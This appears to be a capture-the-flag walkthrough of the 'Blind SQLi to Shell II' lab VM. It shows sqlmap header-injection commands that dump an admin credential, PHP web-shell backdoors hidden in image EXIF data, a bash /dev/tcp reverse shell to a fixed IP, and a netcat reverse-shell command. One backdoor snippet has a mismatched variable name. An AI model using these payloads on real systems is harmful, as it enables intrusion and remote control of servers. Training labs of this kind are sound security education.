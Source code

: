 # Blind SQLi to Shell II
## _Walkthrough_

The first thing to do is to deploy the iso, I used VMWare, and get the ip (using the command __ifconfig__).



![image](https://user-images.githubusercontent.com/38219437/138444044-8bb3effe-29b2-486c-bc0d-4dc96f89407a.png)


## Recon

### Tecnologies used:

```
nmap -sC -sV 192.168.77.128 -p-

-sV check services and versions
-sC script scan
```
  **Output:**
```
80/tcp open  http    nginx 0.7.67
|_http-server-header: nginx/0.7.67
|_http-title: My Photoblog - latest picture

```
```
HTTP/1.1 200 OK
Server: nginx/0.7.67
Date: Thu, 21 Oct 2021 13:40:51 GMT
Content-Type: text/html
Connection: close
X-Powered-By: PHP/5.3.3-7+squeeze15
Content-Length: 1347
```
### Technologies Used


##### NGINX 0.7.67
##### PHP/5.3.3-7+squeeze15


## Attack method

### Blind SQLi

I use this website to learn more about the differents usages of **sqlmap**:
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap

**SQLMap arguments I tried:**
```
$ sqlmap -u "http://192.168.77.128/cat.php?id=*" -p id

$ sqlmap -u "http://192.168.77.128/" --headers "referer:*"

$ sqlmap -u "http://192.168.77.128/" --headers "x-forwarded-for:*"
```

**SQLMAP to find the number of databases and it's names**

```
$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --dbs --dump-all

[*] information_schema
[*] photoblog

$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --tables -D photoblog


Database: photoblog

1. Tables: 4
2. Names: categories, pictures, stats, users

Table: users


$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" -D photoblog -T users --dump

Database: photoblog
Table: users
[1 entry]
+----+-------+---------------------------------------------+
| id | login | password                                    |
+----+-------+---------------------------------------------+
| 1  | admin | 8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) |
+----+-------+---------------------------------------------+
```
**Now that we have the username and the password, we can log in as admin.**

![image](https://user-images.githubusercontent.com/38219437/138444198-b7ffc49e-1a2a-4bee-a545-b7538b5352ec.png)

**After some recon we are able to note only one point to explore, and gain a reverse shell: upload images feature.**



![image](https://user-images.githubusercontent.com/38219437/138444141-db3947ae-5757-4e5c-bfbb-19f0aeca7db2.png)

### Upload png file with php backdoor

**Things I try without success:**
1. Just uploading .php file instead of jpg file
2. Tried Case sensitives — pic.PhP also tried pic.php5, pHP5.
3. Bypass uploads rules by intercepting the request and change the content-type to __image/jpeg__ 
(https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

4. Trying double extensions to bypass and upload php file image.jpg.php or image.php.jpg

## Final method

Most of the php web applications use the gd library to resize images. If so, the exif data will be excluded for the image. Fortunately, it was not the case! 

**First we create a php file with a php backdoor inside it:**

```
<?php $cmd=$_GET['c']; system($c); ?>
``` 
or
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.19.178.103/2222 0>&1'");?>.
```
or 
```
<?php

if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

Explanation of the code:

1. First the code checks if there's a **c** parameter in the url;
2. Assigns the content of the parameter **c** to the variable **c**
3. System() is for executing a system command on the server.



**Using exiftool we are going to add a comment with our payload o the image**

```
exiftool "-comment<=file.php" tux.png
```

We are now ready to upload our __image__ and generate a reverse shell.


## Now you can upload the file. After the upload you can trigger the backdoor usin this for the first two:

```
(...).png/c.php
```
### And this one for the third:

```
(...).png/c.php?c=ls
```

__We need to add cmd.php, otherwise the photo is displayed instead of the code we want__

To create a reverse shell we use the following code instead of __ls__:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional

Attackers machine:
```
nc -lvp 1234
```

Command cmd=
```
nc -e /bin/sh <attacker_ip> <nc_listener_port>
```
